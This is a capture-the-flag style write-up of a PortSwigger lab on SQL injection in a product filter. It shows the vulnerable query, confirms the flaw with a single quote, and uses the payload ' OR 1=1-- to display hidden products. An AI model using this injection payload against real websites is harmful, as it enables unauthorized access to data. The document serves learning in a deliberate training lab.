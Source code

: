 # Write-up: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data>  
Difficulty: APPRENTICE  
  

## Lab description

![lab_description](img/1.png)

## Query

The query used in the lab is

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

## Steps

### Enumeration

I checked out how the filter works using interceptor and found out that the request is like
`GET /filter?category=Corporate+gifts HTTP/2`
which showed 3 products

### Confirm Vurnerability

I added a single quote to the category parameter and got an error message. This confirms the vulnerability.

### Exploit

To show all products, we need to make sure the request is always true. I used `category=' OR 1=1--` to get all products.
Url is like
`GET /filter?category=Corporate+gifts'+OR+1=1-- HTTP/2`

The result query is like
```sql
SELECT * FROM products WHERE category = 'Corporate gifts' OR 1=1-- AND released = 1
```

This displays all products, including the hidden one and hence solves the lab.

![alt text](img/2.png)